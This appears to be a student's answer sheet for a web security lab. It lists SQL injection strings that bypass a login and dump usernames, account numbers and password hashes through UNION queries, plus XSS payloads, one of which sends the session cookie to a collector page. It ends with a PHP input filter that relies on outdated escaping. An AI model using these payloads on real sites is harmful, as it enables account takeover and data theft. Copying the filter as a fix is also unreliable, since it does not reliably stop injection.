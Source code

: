 Task 1
Q1:  1' or '1' = '1' ORDER BY id DESC -- --

Q2:  admin' -- --

Q3:  
##paste the following injections to the "Enter user ID" input box

# used the following to check for the number of columns

	-1 union select NULL,NULL,NULL,NULL,NULL,NULL -- --
# used the following to get the name of the tables in the database

	-1 union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema=database()-- --
# used the following to check for column names in the tables

	-1 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_schema=database()-- --

# finally the following dumps all the user info along with md5 hashes

	-1 union select 1,2,3,group_concat(username," ",fullname," ",accountNumber," ",password),5,6 from users-- --

Task 2
Q1:  paste the following code/line to the fullname input box
#website defacement ??? not sure if this is non-persistent or persistent

tom riddle<script>document.body.bgColor="tomato";</script>

Q2: paste the following code/line to the fullname input box
#used the following Cross-site script to steal the admin session/cookie
#check malsite for database storage code, you can find our how to use the session/cookie to gain access

<script>new Image().src = "http://localhost/malsite/index.php?joys="+document.cookie+"&site="+document.location.href;</script>


Task 3
#change all $_REQUESTS['..'] to use the following function
function filter_me($input){
	$input = stripslashes($input);
	$input = strip_tags($input);
	$input = mysql_real_escape_string($input);
	return $input;
}

Example:
	#make sure the function is included  before the code on every page
	$u = filter_me($_REQUESTS['username']);